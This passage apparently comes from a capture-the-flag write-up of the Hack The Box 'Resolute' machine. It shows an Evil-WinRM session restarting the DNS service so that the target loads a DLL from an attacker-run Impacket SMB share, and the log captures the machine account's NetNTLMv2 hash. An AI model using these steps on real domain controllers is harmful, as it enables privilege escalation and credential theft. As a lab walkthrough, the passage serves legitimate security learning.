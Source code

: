 According to the article, you next have to stop and restart the DNS service. You can do this using `sc.exe`_\(Don't just type `sc` as this is an alias for `Set-Content` in Powershell and will not work.\)_

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1008
        FLAGS              :
```

Back at my SMB server, I saw the incoming connection from the `RESOLUTE` machine. _The dll was only retrieved when the DNS service was restarted, so don't worry if you don't see the request for the file when you run the earlier command._

```text
zweilos@kalimaa:/usr/bin$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -debug SHARE ~/
Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.169,52825)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:4141414141414141:b7cf9e97aaa2dc6eb6c445bfd31b78c0:010100000000000080dc5b96b140d601f055aec715c614f90000000001001000730066004e005600480079007a00620003001000730066004e005600480079007a00620002001000420074004e006b004b0047007400760004001000420074004e006b004b004700740076000700080080dc5b96b140d60106000400020000000800300030000000000000000000000000400000ec955b51be4dc45f746b5b6c2c304b5c83f6fde057b51098f9837f196eb5368e0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200350033000000000000000000
[*] Disconnecting Share(1:SHARE)
[*] Handle: 'ConnectionResetError' object is not subscriptable
[*] Closing down connection (10.10.10.169,52825)
[*] Remaining connections []
```
